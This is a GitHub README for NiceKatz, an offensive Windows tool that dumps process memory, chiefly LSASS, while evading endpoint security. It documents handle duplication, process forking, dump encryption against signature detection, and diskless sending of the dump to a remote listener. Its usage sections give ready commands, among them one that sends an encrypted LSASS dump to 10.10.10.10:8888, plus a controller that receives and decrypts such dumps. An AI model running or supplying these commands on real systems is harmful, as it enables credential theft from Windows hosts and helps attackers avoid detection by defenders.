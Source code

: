 # NiceKatz - a nice process dumping tool

![🍉](https://cdn.emojidex.com/emoji/seal/watermelon.png "watermelon")

NiceKatz is a process dumping tool which was developed as part of my software development and windows internals studies.
This tool lets you dump the memory of windows process's in couple of different ways and avoids calling suspicious APIs. 

It is well known already that most of the modern security solutions will block any API calls such as OpenProcess that targets sensetive processes(eg. lsass.exe), other then that, direct memory reading of such processes will also flag modern security solutions. If this is not enough, there are also some vendors that detects the signature of the dump file itself, so even if the handle to the process is retrieved, and the memory reading has completed, all of the work will be thrown away once the dump file touches the disk.. 

NiceKatz evades all of the problems mentioned above, and provides more then one way to dump the processe's memory. 

## Features
- Uses handle duplication to avoid direct OpenProcess to the target
- Supports process forking to avoid direct memory reading of the target process
- Can dump ANY process, not only LSASS
- Supports two different dump modes - MiniDumpWriteDump and SilentProcessExit
- Implements MiniDumpWriteDump callback to capture MiniDump information in memory
- Supports dump encryption to avoid dmp file signatures from being detected
- Supports sending dump file remotely without touching the disk
- Cleanup is performed for any OS configuration change
- Provides a controller that can be used as a listener and a decryptor of dump files generated by NiceKatz

## Build instructions
A full visual studio solution is provided, just load it to visual studio and build.
The right build to use is "Release x64". Do not build as x86, it is not supported by this tool.
The build will result in two files - NiceKatz.exe and NiceKatzController.exe

## NiceKatz
This is is the program that performs the actual process dumping, you can use it to dump any process, in two different modes. 
You can use  this program to dump processes, encrypt the dumped process, send it remotlely or write it to disk.  
#### NiceKatz usage:
```
NiceKatz v0.1
        Alon Leviev(@0xDeku)

Mandatory args:
-m Process dump method
        1 = Dump target process by using MiniDumpWriteDump
        2 = Dump target process by using SilentProcessExit(Does not support -r and -e ATM)

Other args:
-e Encrypt output file
-r Send dmp remotly without touching the disk
        <IP_ADDR> The ip address to send the dump to
        <PORT> The port of which to connect to
-p Target process id to dump(Default: LSASS pid)

Examples:
- Dump lsass by using MiniDumpWriteDump and ecrypt the output file:
        NiceKatz.exe -m 1 -e
- Dump PID 1234 by using SilentProcessExit method:
        NiceKatz.exe -m 2 -p 1234
- Dump PID 5678 by using MiniDumpWriteDump, encrypt the dump in memory and send remotly:
        NiceKatz.exe -m 1 -p 5678 -r 10.10.10.10:8888 -e
```

## NiceKatzController
This is the program which you can use to listen for connections arriving from NiceKatz.exe. 
The controller has more capabilities such as: decrypting the process dump stream recived from the socket as well as decrypting a given file genereated by NiceKatz.exe

#### NiceKatzController usage:
```
NiceKatzController
        Alon Leviev(@0xDeku)

Arguments:
-l Listen for connections from remote target machine
-d Decrypt the dump file when recived from the target
-df Decrypt an encrypted dump file by path(Not supported with other arguments)

Examples:
- Listen for connections from remote target and decrypt the recived dump file:
        NiceKatzController.exe -l -d
- Decrypt an encrypted dump file by its path:
        NiceKatzController.exe -df C:\Temp\dump.dmp
```

## Demo

![20220712_215439 (1)](https://user-images.githubusercontent.com/93016131/178572628-bd8985f9-8516-419e-b06a-393b65269791.gif)


## Future development
There is a list of TODOs and I will continue developing this tool in the future.
If you encounter a bug, or want to ask for aditional features, just open an issue on this git repo. 

## Credits 
- [@_RastaMouse](https://twitter.com/_rastamouse) for his [article](https://rastamouse.me/duplicating-handles-in-csharp/) on handle duplication <br />
- [Asaf Gilboa](https://mobile.twitter.com/asaf_gilboa) for [Lsass Memory Dumps are Stealthier than Ever Before - Part 2](https://www.deepinstinct.com/blog/lsass-memory-dumps-are-stealthier-than-ever-before-part-2) <br />
- [m0rv4i](https://twitter.com/m0rv4i) for implmenting MiniDumpWriteDump callback in c# at [SafetyDump](https://github.com/m0rv4i/SafetyDump)<br />
- [Bill Demirkapi](https://twitter.com/BillDemirkapi) for [process forking](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)
